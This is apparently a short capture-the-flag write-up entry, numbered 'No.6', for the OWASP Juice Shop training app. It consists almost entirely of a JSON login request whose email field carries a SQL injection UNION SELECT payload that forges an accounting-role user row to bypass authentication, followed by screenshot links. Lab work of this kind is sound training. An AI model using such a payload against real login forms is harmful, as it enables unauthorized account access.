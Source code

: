 ## No.6

`{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "123456789"
}`
<img width="1918" height="1016" alt="image" src="https://github.com/user-attachments/assets/bc05c9a4-6fe3-4e51-bd1c-45074d98e965" />
<img width="1917" height="1014" alt="image" src="https://github.com/user-attachments/assets/c99d395a-877b-414b-b8de-ea74736c831c" />
<img width="1918" height="1018" alt="image" src="https://github.com/user-attachments/assets/e1e95065-b6b7-44a4-83c5-2af504866b14" />

